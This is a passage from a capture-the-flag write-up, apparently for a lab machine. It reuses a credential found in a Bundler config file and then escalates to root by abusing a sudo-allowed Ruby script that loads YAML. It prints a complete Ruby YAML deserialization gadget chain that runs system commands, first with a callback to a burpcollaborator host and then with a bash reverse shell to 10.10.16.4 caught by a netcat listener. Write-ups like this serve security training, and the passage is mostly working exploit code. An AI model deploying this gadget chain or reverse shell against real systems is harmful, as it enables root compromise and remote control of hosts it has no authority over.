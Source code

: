 ```yaml
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
####
Valid credential were founded in that file. We could use this credentials against **henry** user: `su henry` or using *SSH*.
####
####
####
## Second exploit phase (Privilage Escalation)
### Yaml:
The first thing is verify if we have **root** permissions over some binarie: `sudo -l`, we realise that we can execute `/usr/bin/ruby /opt/update_dependencies.rb` as **root**. Cat that binarie show us that file perfom a *YAML dependencies injection* using **yaml** and **gems**. So we could try to inject a malicious code in that file. Looking in internet how we can exploit that vulnerability found this: [Remote-code-execution-yaml-deserialization](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/).
####
The article structure code is so:
####
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.wkkib01k9lsnq9qm2pogo10tmksagz.burpcollaborator.net/443'"
         method_id: :resolve
```
####
The payload is injected in the **git_set** param. So we could sustitute the current payload with this: `git_set: "bash -c 'bash -i >& /dev/tcp/10.10.16.4/4444 0>&1'`. The **update_dependencies.rb** file wait dependencies from a **dependencies.yml** file. So we need to create a **dependencies.yml** file in `/tmp` and paste the previuos payload. Finally, we execute: `sudo /usr/bin/ruby /opt/update_dependencies.rb` in the target machine and in our machine: `nc -nvlp 4444`.
